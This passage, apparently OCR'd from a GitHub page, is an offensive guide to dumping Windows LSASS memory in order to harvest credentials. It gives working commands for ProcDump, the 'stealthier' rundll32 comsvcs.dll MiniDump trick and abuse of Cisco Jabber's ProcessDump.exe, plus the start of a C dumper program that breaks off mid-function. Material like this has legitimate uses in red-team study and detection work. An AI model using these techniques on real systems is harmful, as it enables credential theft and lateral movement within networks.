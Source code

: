 1. **Using Task Manager**:
   - **Note**: This method is less stealthy and often requires administrative privileges.
   - Open Task Manager (`Ctrl + Shift + Esc`).
   - Go to the `Details` tab.
   - Find `lsass.exe`, right-click, and select `Create dump file`.
   - The dump will be saved in a temporary directory (e.g., `C:\Users\<User>\AppData\Local\Temp\lsass.dmp`).

2. **Using Sysinternals ProcDump**:
   - ProcDump is a command-line tool from Sysinternals that allows you to dump the memory of a process, including LSASS.

   ```cmd
   procdump -accepteula -ma lsass.exe lsass.dmp
   ```

   - The above command dumps the memory of `lsass.exe` into a file named `lsass.dmp` for offline analysis.

3. **Using `comsvcs.dll` for Stealthier Dumping**:
   - This method uses `comsvcs.dll` to create a memory dump of the `lsass.exe` process in a stealthier manner.

   ```cmd
   rundll32.exe C:\Windows\System32\comsvcs.dll, MiniDump 1234 C:\path\to\dumpfile.dmp full
   ```

   Replace `1234` with the process ID (PID) of `lsass.exe`. You can find the PID by running `tasklist | findstr lsass`.

### ProcessDump.exe from Cisco Jabber

Sometimes Cisco Jabber (always?) comes with a nice utility called `ProcessDump.exe` that can be found in `c:\program files (x86)\cisco systems\cisco jabber\x64\`. We can use it to dump lsass process memory in Powershell like so:
```cmd
cd c:\program files (x86)\cisco systems\cisco jabber\x64\
processdump.exe (ps lsass).id c:\temp\lsass.dmp
```

### **Method 3: Dumping LSASS with a Custom C/C# Program**

#### C Program Example

Here is a simple C program that uses the Windows API to dump the LSASS process memory:

```c
#include <windows.h>
#include <dbghelp.h>
#include <tlhelp32.h>

DWORD FindProcessId(const char *processName) {
    PROCESSENTRY32 processInfo;
    processInfo.dwSize = sizeof(processInfo);
    HANDLE processesSnapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (processesSnapshot == INVALID_HANDLE_VALUE) return 0;

    Process32First(processesSnapshot, &processInfo);
    if (!strcmp(processInfo.szExeFile, processName)) {
        CloseHandle(processesSnapshot);
        return processInfo.th32ProcessID;
    }

    while (Process32Next(processesSnapshot, &processInfo)) {
        if (!strcmp(processInfo.szExeFile, processName)) {
            CloseHandle(processesSnapshot);
            return processInfo.th32ProcessID;
        }
    }
```